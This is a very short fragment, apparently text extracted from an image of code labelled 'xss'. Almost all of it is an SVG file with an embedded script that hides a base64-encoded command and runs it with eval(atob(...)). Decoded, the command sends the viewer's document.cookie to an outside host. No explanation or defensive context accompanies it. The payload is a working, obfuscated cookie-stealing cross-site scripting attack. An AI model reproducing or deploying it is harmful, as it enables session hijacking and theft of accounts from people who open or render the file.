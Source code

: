 xss
<svg xmlns='http://www.w3.org/2000/svg'><script>id='ZmV0Y2goJ2h0dHA6Ly91am1uYmd0Lnh5ei8/Y29va2llPScrZG9jdW1lbnQuY29va2llKTs=';eval(atob(this.id));</script></svg>
